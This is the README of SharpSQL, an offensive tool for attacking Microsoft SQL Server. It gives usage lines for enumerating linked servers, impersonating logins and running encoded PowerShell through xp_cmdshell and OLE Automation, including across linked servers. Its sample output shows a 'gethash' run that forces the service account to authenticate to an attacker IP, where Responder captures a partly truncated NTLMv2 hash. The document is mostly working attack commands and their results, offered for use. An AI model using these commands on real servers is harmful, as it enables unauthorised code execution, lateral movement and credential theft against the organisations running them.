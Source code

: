 # SharpSQL

----

### Command Line Usage


    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    MSSQL Authenticated Server Enumeration and Impersonation:
        [1] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
            SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
            SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve SQL Logins Available for Impersonation and Impersonate the Available Login:
            SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
            SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Command Execution:
        [1] Execute Encoded PowerShell Command via 'xp_cmdshell':
            SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Execute Encoded PowerShell Command via 'Ole Automation Procedures':
            SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    MSSQL Linked Server Command Execution:
        [1] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
            SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Configure Linked SQL Server to Allow RPC connections:
            SharpSQL.exe rpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    MSSQL Double Linked Server Command Execution:
        [1] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]


### getlinked

    C:\SharpSQL>SharpSQL.exe getlinked /db:master /server:SQL1

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    [*] Action: Retrieve Linked Servers
        Usage: SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'SQL1' Successful!
    [*] Linked SQL server: SQL2
    [*] Linked SQL server: SQL1\SQLEXPRESS


### getdbuser

    C:\SharpSQL>SharpSQL.exe getdbuser /db:master /server:SQL1

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    [*] Action: Retrieve Information on the SQL Login, Currently Mapped User, and Available User Roles
        Usage: SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'SQL1' Successful!
    [+] Logged in as: SQL1\Administrator
    [+] Mapped to user: dbo
    [+] User is a member of the 'Public' role
    [+] User is a member of the 'sysadmin' role


### getlogin

    C:\SharpSQL>SharpSQL.exe getlogin /db:master /server:SQL1

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    [*] Action: Retrieve SQL Logins Available for Impersonation
        Usage: SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'SQL1' Successful!
    [+] Logged in as: SQL1\Administrator


### gethash

    C:\Users\Administrator>SharpSQL.exe gethash /db:master /server:web06 /ip:192.168.49.61

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    [*] Action: Retrieve Net-NTLM Hash for Service Account
        Usage: SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'web06' Successful!

    [10/06/21 2:23:49]
    (root💀jb05s)-[~/tools/Responder]
    └─# python3 ./Responder.py -I tun0                                                                
                                         __
      .----.-----.-----.-----.-----.-----.--|  |.-----.----.
      |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
      |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                       |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

      Author: Laurent Gaffie (laurent.gaffie@gmail.com)
      To kill this script hit CTRL-C

    [+] Poisoners:
    ...
    [+] Servers:
    ...
    [+] HTTP Options:
    ...
    [+] Poisoning Options:
    ...
    [+] Generic Options:
    ...
    [+] Current Session Variables:
    ...

    [+] Listening for events...                                                                                                                                                           

    [SMB] NTLMv2-SSP Client   : 10.0.0.5
    [SMB] NTLMv2-SSP Username : JB05S\SQLSvc
    [SMB] NTLMv2-SSP Hash     : SQLSvc::JB05S:1e9bb47f248b4395:BF0D807BE57380FDDCFC5E87C8ED3894:...